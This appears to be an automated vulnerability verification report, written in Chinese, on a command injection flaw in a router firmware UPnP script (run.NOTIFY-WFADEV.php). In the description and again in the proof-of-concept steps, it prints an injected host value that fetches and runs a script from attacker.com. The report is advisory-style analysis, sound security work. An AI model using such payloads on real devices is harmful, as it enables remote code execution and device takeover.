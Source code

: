 ## 验证指标

- **验证时长：** 376.07 秒
- **Token 使用量：** 609762

---

## 原始信息

- **文件/目录路径：** `etc/scripts/upnp/run.NOTIFY-WFADEV.php`
- **位置：** `run.NOTIFY-WFADEV.php: 在 foreach ($SERVICE."/subscription") 循环中（具体行号不可用，但从代码结构位于循环体内）`
- **描述：** 命令注入漏洞存在于 $host 变量的使用中。当处理 UPnP 事件通知时，脚本通过 `query("host")` 获取 $host 值（来自 UPnP 订阅请求），并直接嵌入到 `httpc` 命令的 `-d` 参数中。由于 $host 被包裹在双引号中但未转义，攻击者可在 $host 中注入特殊字符（如 `"; malicious_command; "`）来突破双引号限制并执行任意命令。触发条件：攻击者通过 UPnP 订阅设置恶意的 'host' 值；当设备处理通知时，脚本执行并触发命令注入。约束条件：攻击者需拥有有效登录凭据并连接到设备网络。潜在攻击方式：注入命令如 `"; wget http://attacker.com/malware.sh -O /tmp/malware.sh; sh /tmp/malware.sh; "` 到 $host，导致远程代码执行。相关代码逻辑：数据流从 UPnP 请求到 `query("host")`，最终在 `httpc` 命令中执行。
- **代码片段：**
  ```
  从 'run.NOTIFY-WFADEV.php' 相关代码：
  foreach ($SERVICE."/subscription")
  {
  	$host = query("host");
  	// ... 其他代码 ...
  	echo "cat ".$temp_file." | httpc -i ".$phyinf." -d \"".$host."\" -p TCP > /dev/null\n";
  }
  ```
- **备注：** 漏洞可被已登录的非 root 用户利用，因为 UPnP 订阅可能通过网络接口访问。类似漏洞在 'run.NOTIFY-PROPCHANGE.php' 中被 ParallelTaskDelegator 子任务确认，增强了可信度。建议检查包含文件（如 gena.php）以验证变量来源，但当前证据已足够确认漏洞。后续可分析 httpc 二进制以评估影响范围。

## 验证结论

- **描述准确性：** `accurate`
- **是否为真实漏洞：** `True`
- **风险级别：** `High`
- **详细原因：** 安全警报准确描述了命令注入漏洞。证据来自文件 'etc/scripts/upnp/run.NOTIFY-WFADEV.php' 的代码分析：在 foreach ($SERVICE."/subscription") 循环中，$host 变量通过 query("host") 从 UPnP 订阅请求中获取，并直接嵌入到 httpc 命令的 -d 参数中，包裹在双引号内但未转义。攻击者模型为已通过身份验证的用户（拥有有效登录凭据）在本地网络中，可以控制 UPnP 请求中的 host 字段。完整攻击链验证：输入可控（攻击者设置恶意 host 值）→ 通过 query("host") 获取 → 嵌入 httpc 命令执行。路径可达，在现实条件下，当设备处理 UPnP 通知时，脚本执行并触发命令注入。实际影响为远程代码执行。可重现的 PoC 步骤：1. 攻击者连接到设备网络并登录（拥有有效凭据）。2. 攻击者发送 UPnP 订阅请求，其中 host 字段包含注入载荷，例如："; wget http://attacker.com/malware.sh -O /tmp/malware.sh; sh /tmp/malware.sh; "。3. 当设备处理通知时，脚本执行 echo "cat .$temp_file. | httpc -i .$phyinf. -d \" .$host. \" -p TCP > /dev/null\n"，导致注入的命令被执行，实现远程代码执行。漏洞风险高，因为攻击者可在设备上执行任意命令，可能完全控制设备。

## 验证指标

- **验证时长：** 241.16 秒
- **Token 使用量：** 423567

---

## 原始信息
